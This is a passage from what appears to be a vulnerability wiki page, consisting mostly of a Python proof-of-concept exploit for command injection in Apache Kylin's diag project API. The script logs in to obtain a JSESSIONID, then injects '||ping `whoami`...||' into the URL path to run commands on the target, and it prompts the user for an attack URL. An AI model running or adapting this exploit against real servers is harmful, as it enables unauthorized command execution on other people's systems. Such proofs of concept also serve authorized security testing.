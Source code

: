 ```python
        "Authorization": Authorization,
        "Cookie": "project=null"
    }
    try:
        response = requests.post(url=login_url, headers=headers, timeout=20)
        if "password" not in response.text:
            print("\033[31m[x] 账号密码出现错误 \033[0m")
            sys.exit(0)
        else:
            print("\033[32m[o] 成功登录，获得JSESSIONID：" + response.cookies["JSESSIONID"] + "\033[0m")
            return response.cookies["JSESSIONID"]
    except:
        print("\033[31m[x] 漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, cookie):
    vuln_url = target_url + '/kylin/api/diag/project/%7C%7Cping%20%60whoami%60.111.111.111%7C%7C/download'
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if ".111.111.111||" in response.text:
            whoami = re.findall(r'ping: (.*?).111.111.111: 未知的名称或服务',response.text)[0]
            print("\033[32m[o] 存在漏洞，成功执行whoami，响应为{}\033[0m".format(whoami))
        else:
            print("\033[31m[x] 漏洞利用失败,||,&&等符号已被过滤，无法造成命令注入\033[0m")
    except:
        print("\033[31m[x] 请求超时\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    POC_2(target_url, cookie)
```

![](http://wikioss.peiqi.tech/vuln/kylin-24.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)